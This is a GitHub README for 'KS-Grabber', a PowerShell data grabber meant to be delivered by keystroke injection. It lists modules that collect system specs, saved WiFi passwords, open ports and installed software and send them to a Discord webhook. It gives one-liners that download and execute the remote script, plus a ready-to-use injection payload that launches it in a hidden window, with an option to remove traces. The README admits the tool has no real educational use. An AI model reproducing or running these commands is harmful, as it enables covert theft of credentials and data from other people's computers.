 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Functions

Gather PC Specs
Gather WiFi profiles and it's passwords
Gather Open Ports
Gather Installed Softwares


## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookurl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Hosseios/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  # Gather PC data
$gatherWifiProfiles = $true  # Gather WiFi profiles
$gatherOpenPorts = $true  # Gather open ports
$removeTraces = $true  # Remove traces
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookurl` variable with your webhook:

```powershell
$hookurl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookurl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.
